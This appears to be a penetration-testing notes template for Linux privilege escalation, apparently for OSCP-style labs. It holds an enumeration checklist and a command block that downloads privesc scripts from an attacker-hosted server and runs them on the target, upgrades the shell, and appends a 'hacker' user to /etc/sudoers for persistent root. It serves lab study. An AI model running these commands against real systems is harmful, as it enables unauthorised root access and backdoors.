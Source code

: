 Now we start the whole enumeration-process over gain.

- Kernel exploits
- Programs running as root
- Installed software
- Weak/reused/plaintext passwords
- Inside service
- Suid misconfiguration
- World writable scripts invoked by root
- Unmounted filesystems

Less likely

- Private ssh keys
- Bad path configuration
- Cronjobs


### To-try list

Here you will add all possible leads. What to try.


### Useful commands

```
# Spawning shell
python -c 'import pty; pty.spawn("/bin/sh")'

# Access to more binaries
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

# Set up webserver
cd /root/oscp/useful-tools/privesc/linux/privesc-scripts; python -m SimpleHTTPServer 8080

# Download all files
wget http://192.168.1.101:8080/ -r; mv 192.168.1.101:8080 exploits; cd exploits; rm index.html; chmod 700 LinEnum.sh linprivchecker.py unix-privesc-check

./LinEnum.sh -t -k password -r LinEnum.txt
python linprivchecker.py extended
./unix-privesc-check standard


# Writable directories
/tmp
/var/tmp


# Add user to sudoers
echo "hacker ALL=(ALL:ALL) ALL" >> /etc/sudoers
```


### Basic info
